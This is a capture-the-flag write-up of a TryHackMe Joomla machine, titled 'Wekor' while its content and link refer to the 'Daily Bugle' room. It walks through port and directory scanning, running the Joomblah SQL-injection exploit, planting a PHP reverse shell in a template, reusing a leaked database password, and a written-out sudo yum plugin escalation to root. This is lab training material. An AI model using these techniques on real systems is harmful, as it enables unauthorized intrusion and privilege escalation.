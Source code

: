 ```yaml
---
layout: default
title: Wekor
description: THM - Wekor
---
```


## Enumeration

Nmap Scan:
```
Nmap scan report for 10.10.8.229
Host is up (0.067s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
3306/tcp open  mysql   MariaDB (unauthorized)
```
Gobuster Scan:
```
/images               (Status: 301) [Size: 234] [--> http://10.10.8.229/images/]
/media                (Status: 301) [Size: 233] [--> http://10.10.8.229/media/]
/templates            (Status: 301) [Size: 237] [--> http://10.10.8.229/templates/]
/modules              (Status: 301) [Size: 235] [--> http://10.10.8.229/modules/]
/bin                  (Status: 301) [Size: 231] [--> http://10.10.8.229/bin/]
/plugins              (Status: 301) [Size: 235] [--> http://10.10.8.229/plugins/]
/includes             (Status: 301) [Size: 236] [--> http://10.10.8.229/includes/]
/language             (Status: 301) [Size: 236] [--> http://10.10.8.229/language/]
/components           (Status: 301) [Size: 238] [--> http://10.10.8.229/components/]
/cache                (Status: 301) [Size: 233] [--> http://10.10.8.229/cache/]
/libraries            (Status: 301) [Size: 237] [--> http://10.10.8.229/libraries/]
/tmp                  (Status: 301) [Size: 231] [--> http://10.10.8.229/tmp/]
/layouts              (Status: 301) [Size: 235] [--> http://10.10.8.229/layouts/]
/administrator
```
Looking at the source we can see the website is running Joomla CMS
```
<script type="application/json" class="joomla-script-options new">{"system.keepalive":{"interval":840000,"uri":"\/index.php\/component\/ajax\/?format=json"}}</script>
```
Robots.txt file:
```
User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```
Accessing:
```
http://10.10.8.229/language/en-GB/en-GB.xml
```
Shows us that the Joomla version is 3.7.0
```
<metafile version="3.7" client="site">
<name>English (en-GB)</name>
<version>3.7.0</version>
```
Looking around for an exploit, it appears we have found one using searchsploit, and another one on github, "Joomblah"
```
https://github.com/XiphosResearch/exploits/tree/master/Joomblah

[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '[REDACTED]', '', '']
  -  Extracting sessions from fb9j5_session
```
So we found a user, jonah, and a hash. Cracking the hash gave us a password.

Let's try logging into joomla.

It worked!

We'll now go to "templates" and replace the "index.php" content with a php shell.
```
nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.8.229 37676
SOCKET: Shell has connected! PID: 3568
whoami
apache
```
From here, I'll beautify my shell and look around for interesting files.

Also, I'll run linpeas. Just open two shells.

Now, this server is vulnerable to "PwnKit". But I don't think it's the intended path, so we're not gonna use it.

After looking up and down and finding nothing, I went back to the web directory, where a "configuration.php" file was sitting.
```
$host = 'localhost';
        public $user = 'root';
        public $password = '[REDACTED]';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';

bash-4.2$ su root
su root
Password: [REDACTED]

su: Authentication failure

bash-4.2$ su jjameson
su jjameson
Password: [REDACTED]

[jjameson@dailybugle html]$ 
```
Great! We moved laterally to jjameson.

Let's see his level of access. But first, I'll ssh into the machine for a better shell.
```
ssh jjameson@10.10.8.229
jjameson@10.10.8.229's password: 
Last login: Sun Sep 24 15:19:41 2023
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$   
```
We now have the user.txt file.
```
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME
    HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$ 

```
Using yum with sudo, we can look on GTFOBins and gain root.
```
[jjameson@dailybugle ~]$ TF=$(mktemp -d)
[jjameson@dailybugle ~]$ cat >$TF/x<<EOF
> [main]
> plugins=1
> pluginpath=$TF
> pluginconfpath=$TF
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
> [main]
> enabled=1
> EOF
[jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
> import os
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh','/bin/sh')
> EOF
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Failed to set locale, defaulting to C
Loaded plugins: y
No plugin match for: y
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# 
```
We now have root access, we can read the flag and submit it!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/dailybugle)
